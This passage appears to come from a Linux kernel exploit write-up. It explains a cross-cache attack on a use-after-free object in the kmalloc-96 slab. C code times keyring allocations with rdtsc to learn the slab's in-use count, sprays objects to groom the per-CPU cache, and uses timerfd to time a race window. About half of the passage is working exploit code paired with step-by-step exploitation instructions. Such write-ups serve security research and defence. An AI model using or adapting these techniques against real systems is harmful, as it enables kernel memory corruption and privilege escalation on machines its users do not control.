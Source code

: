 ```cpp
    sched_yield();
    t0 = rdtsc_begin();
    keyv = create_keyring(KEYRING_TYPE_USER, desc, &payload, KEYRING_KMALLOC_96, KEY_SPEC_PROCESS_KEYRING);
    t1 = rdtsc_end();
    times[i] = t1-t0;
}

int inuse = -1, currv = 0;
for(int i=OBJS_PER_SLAB-1; i>=0; i--)
    if(times[i] > 6000)
    {
        inuse = OBJS_PER_SLAB - i;
        break;
    }

printf("inuse: %d\n", inuse);
usleep(10000);
```

With the exact number of objects determined, it is now possible to ensure that the **UAF object** (allocated from `[2.2]`) and the object that cannot be freed (allocated from `[3.2]`) are allocated on **different SLUB pages**. By filling the SLUB allocator until the `inuse` value reaches **0x29**, the UAF object is forced out of the **per-CPU cache**, while the other object remains in the **Active page**. Subsequently, by freeing a **keyring object** at a specific point, the SLUB containing the UAF object can be placed into the **per-CPU cache** on an arbitrary CPU.  

### **Cross-Cache Attack Execution**  
With the above conditions satisfied, the following steps are performed to execute the **cross-cache attack**:  

1. **Trigger the vulnerability.**  
2. Within **40000μs**, perform the following steps sequentially:  
    1. Clear all kmalloc-96 SLUB pages containing the **UAF object**.  
    2. Clear all previously allocated dummy kmalloc-96 SLUB pages.  
    3. Allocate the **target object** for the cross-cache attack.  

```cpp
if (conn_pid == 0) {
    [...] // Find inuse cnt of SLUB object

    for(int i=inuse; i<OBJS_PER_SLAB-1; i++)
        spray_vvs(&remainfd[i], 1);
    
    // erase allocated keyring
    remove_keyring(keyv);
    spray_vvs(&remainfd[OBJS_PER_SLAB-1], 1);

    // race 1
    write(communicate_pipe[1], "123", 3);

    struct itimerspec it = {};
    int tfd;
    int rand = v;

    FAIL_IF((tfd = timerfd_create(CLOCK_MONOTONIC, 0)) < 0);
    unsigned long tmp;
    it.it_value.tv_sec = 0;
    it.it_value.tv_nsec = rand * NS_PER_JIFFIE;
    FAIL_IF(timerfd_settime(tfd, 0, &it, NULL) < 0);

    printf("socket b connect count: %d\n", rand);
    read(tfd, &tmp, sizeof(tmp));

```